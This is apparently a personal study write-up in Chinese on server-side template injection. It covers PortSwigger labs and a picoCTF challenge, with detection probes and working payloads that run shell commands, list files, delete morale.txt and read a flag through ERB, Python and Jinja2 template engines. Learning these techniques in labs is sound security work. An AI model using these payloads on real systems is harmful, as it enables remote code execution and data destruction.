




# Server-Side Template Injection

https://portswigger.net/web-security/server-side-template-injection/exploiting

對 Twig, FreeMarker 等框架做 injection

## 機制
```php
$output = $twig->render($_GET['custom_email'],  array("first_name" => $user.first_name) );
```
注入
```
custom_email={{7*7}}

49
```
### 步驟
1. 檢查 SSTI: 注入 `{{5*2}}` 看會不會回傳 `10`
2. 檢查框架
  - {{7*'7'}} would result in 49 in Twig
  - {{7*'7'}} would result in 7777777 in Jinja2
3. 

## Demo
### Lab1
https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic <br>
測試一下，可以發現 message 可以被注入 <br>
https://0a3a00f00382d99e807bad12007a00d0.web-security-academy.net/?message=%3C%=7*7%%3E <br>
> 49

之後就開找檔案 <br>
https://0a3a00f00382d99e807bad12007a00d0.web-security-academy.net/?message=%3C%=%20system(%22ls%22)%20%%3E <br>
> morale.txt true

之後達成條件：刪除 morale.txt <br>
https://0a3a00f00382d99e807bad12007a00d0.web-security-academy.net/?message=%3C%=%20File.delete("morale.txt")%20%%3E <br>
> Lab success

### Lab2
https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic-code-context
記得用 lab 需求的帳密登入，一開始沒看到戳超久QQ <br>
進入後，可以發現 Preferred name 送出封包為 user.name()，看起來有 SSTI，於是就簡單測了一下
```
blog-post-author-display=7*7&csrf=hQtKf7CiArqjjjwZVcj6BNQoOxPXPEfm
```
>
> 7*7 -> 49

```
blog-post-author-display='7'*7&csrf=hQtKf7CiArqjjjwZVcj6BNQoOxPXPEfm


blog-post-author-display='7*7&csrf=hQtKf7CiArqjjjwZVcj6BNQoOxPXPEfm
```
>
>
>可以發現是 python 後端

之後嘗試用
```
blog-post-author-display=dir(__builtins__)&csrf=hQtKf7CiArqjjjwZVcj6BNQoOxPXPEfm
```
> 


單純使用 system('ls') 會遇到 os not defind，所以要加上 `__import__('os')`
```
blog-post-author-display=__import__('os').system('ls')&csrf=2N6vi7b7I2kOpVuWutfwq1WwPMhusd6U
```

```
blog-post-author-display=__import__('os').system('rm morale.txt')&csrf=2N6vi7b7I2kOpVuWutfwq1WwPMhusd6U
```


### picoCTF SSTI1
payload
```twig
{{request.application.__globals__.__builtins__.__import__('os').popen('ls -R').read()}}
```

result
```
.: __pycache__ app.py flag requirements.txt ./__pycache__: app.cpython-38.pyc
```
payload
```
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

